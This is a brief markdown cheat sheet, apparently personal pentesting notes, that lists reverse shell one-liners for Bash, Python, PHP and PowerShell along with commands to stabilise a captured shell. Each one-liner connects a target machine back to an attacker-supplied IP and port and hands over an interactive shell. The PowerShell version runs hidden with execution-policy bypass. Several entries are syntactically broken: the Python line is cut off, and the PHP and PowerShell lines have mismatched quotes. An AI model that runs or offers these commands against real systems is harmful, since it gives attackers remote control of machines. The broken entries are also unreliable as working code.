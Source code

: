# Reverse Shells
1. [Reverse Shell Generator](https://www.revshells.com/)

2. Bash
    ```
    bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1
    ```
3. Python
    ```
    python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("<IP ADDRESS>",<PORT>)
    ```
4. PHP
    ```
    php -r '$sock=fsockopen("<"IP ADDRESS",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
5. Powershell
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP ADDRESS",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()    
    ```



# Reverse Shell Stabilization
1. Via Python
    ```
    (On Target Machine) python -c 'import pty; pty.spawn("/bin/bash")'
    (On Attack Machine) stty raw -echo; fg; reset
    ```
2. Via script
    ```
    (On Target Machine) /usr/bin/script -qc /bin/bash /dev/null
    (On Attack Machine) stty raw -echo; fg; reset
    ```
